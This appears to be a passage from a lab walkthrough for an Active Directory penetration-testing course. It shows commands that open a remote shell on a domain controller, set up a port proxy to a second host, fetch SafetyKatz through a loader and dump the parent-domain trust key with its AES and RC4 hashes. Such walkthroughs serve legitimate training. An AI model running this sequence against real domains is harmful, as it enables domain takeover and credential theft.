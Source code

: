 `winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\svcadmin>
```
🚀

![dcorp-dc | svcadmin](https://custom-icon-badges.demolab.com/badge/dcorp--dc-svcadmin-64b5f6?logo=windows11&logoColor=white)

`netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.22`

![HFS - SafetyKatz.exe](./assets/screenshots/learning_objective_18_hfs_safetykatz.png)

- **Extract from the Child DC the Trust Key for the Parent Domain**

`C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-trust /patch

Current domain: DOLLARCORP.MONEYCORP.LOCAL (dcorp / S-1-5-21-719815819-3726368948-3917688648📌)

Domain: MONEYCORP.LOCAL (mcorp / S-1-5-21-335606122-960912869-3279953914)
 [  In ]📌 DOLLARCORP.MONEYCORP.LOCAL🏛️ -> MONEYCORP.LOCAL🏛️
    * 2/5/2025 9:09:45 PM - CLEAR   - a4 f5 58 eb 73 17 cd b9 f7 17 c5 f1 79 cd 72 b9 23 ff 84 dc 0c 60 a0 53 51 fd 5b 72 86 97 f6 3e d8 39 9a b4 4f 9c 95 e8 e3 98 54 f7 54 97 28 31 8d 41 0a da 77 d8 fd 46 9e c1 77 22 7c 1f 67 99 43 9c 68 a7 00 1c cd d5 cf 60 33 7b 6b e7 23 dd 1e 64 d3 7b 88 c8 cf ea 05 0b a3 08 1c cc 13 aa ea 78 75 33 c5 20 f0 24 8a de 61 2b a7 91 39 9b 66 8a cd 04 6e 23 92 39 c1 22 7b 62 65 24 48 16 2c f2 02 15 6e 76 cc 3c 81 1b 86 2e 02 f7 1d 65 68 bf bd 6b 8c c5 d8 77 1e e2 19 be f7 34 c3 99 27 b1 7c bc 56 a2 75 a7 a7 57 c4 be 27 4b c2 7c f9 49 28 42 99 85 8b 1a 56 5c 27 85 9a 0d 17 d6 ea d4 07 ee 06 59 eb 25 65 59 c7 12 e9 11 be a1 ce 8f 95 4c 03 74 10 0d 92 ab 68 63 dd 15 87 07 6b 8c 92 51 f4 d1 2f f7 d2 e3 20 aa bd 43 68 a0
        * aes256_hmac       66a7798a2a045f5e7d429fee84d129659c0fa52a21e2782b14b4bc30909f0181
        * aes128_hmac       4bf553169dd3941e4c1a6a4a93120569
        * rc4_hmac_nt       d7dddee831c334082de7489882681b9c🔑

[SNIP]
```
